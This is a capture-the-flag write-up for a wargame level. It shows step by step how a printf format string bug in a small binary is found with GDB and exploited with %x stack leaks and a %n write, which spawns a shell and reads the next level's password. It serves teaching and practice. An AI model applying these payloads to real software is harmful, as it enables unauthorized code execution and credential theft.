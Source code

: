 # 🚀 Level 3 - Format String Exploit
## 🧪 First Step - Testing the Program
```bash
$ ./level3
coucou
coucou
```
- 🧾 The program waits for input and echoes it back.

## 🐞 Start the Program in GDB
```bash
(gdb) disas main
...
0x08048520 <+6>:	call   0x80484a4 <v>
```
- 📌 The main function simply calls another function named v.
- 🔍 Analyze the v Function

The v function:
1. Allocates space on the stack.
2. Reads user input into a buffer with fgets.
3. Prints it back with printf.
4. Compares a global variable (m) with 0x40 (64 decimal).
5. If equal, it calls system().
```bash
(gdb) info variables
...
0x0804988c  m
```
- 🎯 We need to make m = 64 to trigger the system() call.
- ⚠️ The printf call is insecure because it prints user input directly: printf(buffer). This allows a format string exploit.

## 🧪 Triggering the Format String Vulnerability
```bash
$ echo "%s" | ./level3
Segmentation fault (core dumped)

$ echo "%x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825
```
- 🔍 We're printing stack values using %x.

Now identify our input’s position on the stack:
```bash
$ echo "BBBB %x %x %x %x %x %x" | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825
```
- ✅ Our input "BBBB" appears as 42424242, which is in the 4th stack position.
- 🎯 Writing to Memory with %n

To write to address 0x0804988c (the m variable), inject it at the start of the payload and use %n:
```bash
$ python3 -c 'print("\x8c\x98\x04\x08" + "%4$n")' | ./level3
```
- 💡 %n writes the number of printed bytes (currently just 4) to the provided address.

We want to write 64 (0x40), so we pad the input to 64 bytes before %n.
```bash
$ python3 -c 'print("\x8c\x98\x04\x08" + "B"*60 + "%4$n")' | ./level3
Wait what?!
```

## ✅ Get the Shell and the Password
To interact with the shell spawned by system("/bin/sh"), keep stdin open:
```bash
$ (python3 -c 'print("\x8c\x98\x04\x08" + "B"*60 + "%4$n")'; cat -) | ./level3
Wait what?!
whoami
level4
cat ~level4/.pass
```
```
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
- 🎉 Done!
